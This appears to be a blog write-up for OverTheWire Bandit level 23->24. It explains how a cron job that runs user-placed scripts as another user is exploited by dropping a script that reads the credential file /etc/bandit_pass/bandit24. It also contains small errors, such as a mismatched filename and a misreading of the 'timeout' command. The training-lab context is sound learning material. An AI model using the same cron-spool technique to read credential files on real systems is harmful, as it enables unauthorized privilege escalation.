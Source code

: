 ```yaml
---
title: OverTheWire Bandit Level 23-> 24
date: 2021-12-06 00:05:00 +0000
categories: [OverTheWire, Bandit]
tags: [overthewire, bandit]
description: Solution for OverTheWire Bandit level 24 challenge
---
```


Solution for the Overthewire.org [Bandit level 23 -> 24](https://overthewire.org/wargames/bandit/bandit24.html){:target="\_blank"}

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very bcd ig step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 22 -> 23]({% post_url 2021-11-19-overthewire-bandit-23 %}).  

username: `bandit23`  

```ssh
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

This level is cron job related like the previous few levels so first thing to do is check the `/etc/cron.d` directory.

```console
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

This time the cronjob we need to investigate is `cronjob_bandit24`.  

```console
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

The cronjob is running the script `cronjob_bandit24.sh` as user bandit24 every minute. So let's see what it is doing.  

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i-
        fi
        rm -f ./$i
    fi
done
```

The bash script is doing:

* Running `whoami` and storing the value in `myname` (bandit24 in this instance)
* Changing into the `/var/spool/bandit24` directory

* for each **file** in `/var/spool/bandit24` (files and hidden files)
  * if **file** is not `.` (current directory) and  **file** is not `..`(parent directory)
    * print 'Handling **file**' to the screen
    * Assign the name of the owner of the **file** to a variable "owner"
    * if "owner" equals 'bandit23'
      * wait 60 seconds and then run the **file**
    * delete **file**

Since we are bandit23, any file we create and place into `/var/spool/bandit24`  
will be run as user bandit24. The file is deleted after being run.

We can create a script to read the password file `/etc/bandit_pass/bandit24` and save it in a new file elsewhere.  

Create a file named `get_bandit24_pass` in `/tmp`.  
Write this line inside the file.

```bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_for_bandit24
```

Give the file execute permission so it can be run and then copy it to the `/var/spool/bandit24` directory.

```console
bandit23@bandit:/tmp$ chmod +x get_bandit24_pass

bandit23@bandit:/tmp$ cp get_bandit_pass /var/spool/bandit24/
```

Now wait 60 seconds and check for a file named `pass_for_bandit24` in tmp.
It will contain the password for bandit24.

```console
bandit23@bandit:/tmp$ cat pass_for_bandit24 
UoMYTr##########################

```
